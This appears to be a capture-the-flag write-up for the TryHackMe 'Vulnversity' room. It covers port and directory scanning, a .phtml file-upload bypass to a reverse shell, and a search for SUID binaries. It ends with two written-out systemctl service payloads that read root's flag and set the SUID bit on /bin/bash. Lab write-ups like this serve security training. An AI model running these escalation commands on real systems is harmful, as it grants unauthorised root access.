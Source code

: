 ```yaml
---
layout: post
permalink: /posts/thm/vulnversity
title: "Vulnversity"
---
```


Here is another enjoyable room. As always let's scan the target machine with nmap.

```
nmap -sC -sV <machine-ip>
```

![nmap-scan](/assets/images/thm/vulnversity/nmap-scan.png)

From the nmap result we can see there are open ports 21, 22, 139, 445, 3128 and 3333. Go and visit the website on port 3333

![website](/assets/images/thm/vulnversity/website.png)

Now scan the website with gobuster

```
gobuster dir -u http://<machine-ip> -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

We have found a directory /internal

![internal](/assets/images/thm/vulnversity/internal.png)

After some tries we found out we can uploat files with .phtml extension. Upload php reverse shell code, set listener and go to http://10.10.176.156:3333/internal/uploads and open your script. Now we have shell access.

```
cat /etc/passwd
```

![passwd](/assets/images/thm/vulnversity/passwd.png)

Search for files with SUID permisson

```
find / -user root -perm -4000
```

![suid](/assets/images/thm/vulnversity/suid.png)

<https://gtfobins.github.io/gtfobins/systemctl/> <br />
Keep in mind that you might need to press Enter additionally after you’ve pasted and ran the commands.

```
-----------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------
to get root access

-----------------------------------------------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------------------------------------
press Enter and type bash -p
```
